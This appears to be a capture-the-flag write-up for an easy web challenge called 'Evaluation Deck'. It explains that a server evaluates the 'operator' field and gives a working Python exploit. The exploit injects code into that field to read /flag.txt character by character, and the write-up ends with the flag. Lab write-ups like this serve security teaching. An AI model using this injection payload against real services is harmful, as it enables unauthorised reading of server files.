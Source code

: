 # Evaluation Deck

![web](https://img.shields.io/badge/category-web-brightgreen) <br>
![difficulty](https://img.shields.io/badge/difficulty-easy-green) <br>
![solvetime](https://img.shields.io/badge/solved-durring%20event-green)

## Description

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

Provided files are:
- [All files](web_evaluation_deck)

## Solving process

Upon inspecting the source, we can se the user input for operator is evaluated and then summed up with other two arguments. We can exfiltrate flag letter by letter from the host machine:

```python
import requests

URL = "insert URL"
s = requests.Session()

r = s.get(URL)
def get_char(i):
    payload = {
        "current_health": "0",
        "attack_power": "0",
        "operator": "+ ord(open('/flag.txt', 'r').read()[{}]) +".format(i)
    }
    r=s.post(URL + "/api/get_health", json=payload)
    return r.json()["message"]
i = 0
while True:
    try:
        c=get_char(i)
        print(chr(c), end="")
        i +=1
    except:
        break
```

**Flag:** *HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}*
